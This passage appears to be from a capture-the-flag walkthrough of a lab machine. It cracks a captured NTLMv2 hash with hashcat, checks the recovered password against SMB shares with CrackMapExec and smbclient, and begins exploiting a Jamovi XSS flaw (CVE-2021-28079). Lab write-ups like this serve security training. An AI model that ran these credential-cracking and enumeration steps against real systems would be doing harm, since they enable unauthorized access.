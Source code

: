Trying to crack the hash with **Hashcat**:
```
hashcat -m 5600 anubis_localadmin.hash /usr/share/wordlists/rockyou.txt
```
```
Secret123
```

After a while it gets cracked and the password can be verified by accessing the SMB shares with **CrackMapExec**:
```
crackmapexec smb 10.10.11.102 -u localadmin -p Secret123 --shares
```
```
Share           Permissions     Remark
-----           -----------     ------
ADMIN$                          Remote Admin
C$                              Default share
CertEnroll      READ            Active Directory Certificate Services share
IPC$            READ            Remote IPC
NETLOGON        READ            Logon server share
Shared          READ            
SYSVOL          READ            Logon server share
```

## Checking SMB (Port 445)

The SMB share _Shared_ is a non-default share, so it should be enumerated:
```
smbclient -U localadmin //10.10.11.102/Shared
```

There are two folders:
- Documents
  - Big 5.omv
  - Bugs.omv
  - Tooth Growth.omv
  - Whatif.omv

- Software
  - 7z1900-x64.exe
  - jamovi-1.6.16.0-win64.exe
  - VNC-Viewer-6.20.529-Windows.exe

The folder _Documents_ has OMV files, which is the [file extension that Jamovi uses](https://docs.jamovi.org/_pages/info_file-format.html).
There is a **Cross-Site Scripting (XSS)** vulnerability [CVE-2021-28079](https://github.com/theart42/cves/blob/master/CVE-2021-28079/CVE-2021-28079.md) in the software **Jamovi** in version 1.6.18 and below.

### Exploiting Jamovi

Downloading _Whatif.omv_ to use it as a template for our exploit:
```
smb: \Documents\Analytics\> get Whatif.omv
```
